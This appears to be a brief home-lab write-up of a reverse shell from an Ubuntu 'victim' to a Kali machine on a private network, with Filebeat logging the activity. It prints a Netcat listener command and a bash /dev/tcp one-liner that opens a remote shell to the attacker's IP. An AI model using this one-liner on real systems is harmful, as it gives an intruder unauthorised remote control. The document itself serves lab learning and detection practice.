 # Reverse Shell attack Documenation

#Goal
Creating a simulate initial foothold by creating a reverse shell from the 
victim machine to the attackers Kali Linux machine 

# Environment

-  Attacker:** Kali Linux
- **Victim:** Ubunto Server
- **Attackers IP**: 192.168.1.4
- **Victim IP**: 192.168.1.32
- **Port**: 4444

# Step by step Execution

### 1. Listener Setup(attacker setup)

First, i opened a Netcat listener on the attacker setup wating from a incoming connection
from the Victim set up.
-----------------------
nc -Lvnp 4444
-----------------------

### 2. Triggering the reverse shell(Victim Setup)

On the victim machine, i have crafted a one-liner to start the reverse shell.
when ran correctly the shell session should open in the attackers side.

-----------------------
bash -i >& /dev/tcp/192.168.1.4/4444 0>&1
-----------------------

### 3. Shell Verification

Had to confirmed i had access by running the following command:
-----------------------
whoami
id
hostname
-----------------------

## 4. Shell Stabilization

The raw reverse shell got unstable, inputs were starting to lag and started to show 
all inputs in caps. Fixed it by running this command:
------------------------
export TERM=xterm
------------------------
Then procedded to close the terminal and started to re-did everything untill i got back
up to the reverse prompt


# Outcome
 - Shell was establised and stabilized
 - The Vicim system responded well after fixing the instable reverse shell
 - Filebeat(on Victim setup) was logging everything


# Notes
- This attack assumes the attacker has a way to execute a command on the victum
- The reverse command can be blocked off by firewalls if the ports were filiterd.

